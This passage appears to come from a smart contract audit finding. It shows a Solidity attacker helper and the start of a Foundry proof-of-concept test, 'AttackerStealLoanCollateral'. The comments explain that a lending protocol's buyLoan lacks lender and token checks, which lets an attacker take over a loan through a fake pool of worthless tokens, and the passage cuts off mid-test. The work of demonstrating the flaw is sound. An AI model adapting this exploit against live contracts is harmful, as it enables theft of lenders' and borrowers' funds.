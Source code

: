 ```solidity
        lender.seizeLoan(loans);
    }

    function getPoolId(address _lender) public returns (bytes32) {
        return keccak256(
            abi.encode(
                address(_lender),
                address(loanToken),
                address(collateralToken)
            )
        );
    }
}
```

#### `AttackerStealLoanCollateral.t.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./BaseLender.sol";

contract AttackerStealLoanCollateralTest is BaseLender {

    function setUp() override public {
        super.setUp();
    }

    function testBuyLoanWithFakePool() public {
        // The current implementation of `buyLoan` do not perform two important checks
        // 1) does not check that the newPool lender is msg.sender and set the msg.sender = loan.lender
        //    this allows anyone to purchase the loan on behalf os someone else that has not given the authorization to do that
        // 2) does not check that the newPool collateral token and loanToken are equal to the one of the loan
        //    this enable the attacker to purchase the loan by using some fake (valueless) token as pool tokens
        // This allows the attacker to purchase the loan by using a "fake pool" that has been created with "fake tokens" as coll/loan tokens
        // The attacker has not spent any of the original loan collateralToken or loanToken to deploy the pool
        // And the loan.lender is now set to the attacker address

        // Lender1 creates a pool with some valid loanToken and collateralToken funding the pool with 1000 ether of loanToken
        bytes32 pool1 = createPool(lender1);

        // A Borrower creates a loan taking 100 ether of loanToken in debt and providing 100 ether of collateralToken as collateral
        borrow(borrower, pool1);

        // the loanID
        uint256 loanId = 0;

        // warp some time and accrue interest, not needed but we want to be realistic
        vm.warp(block.timestamp + 364 days + 12 hours);
        
        // Lender1 decide to sell or liquidate the loan and starts an auction
        uint256[] memory loans = new uint256[](1);
        loans[0] = loanId;

        vm.prank(lender1);
```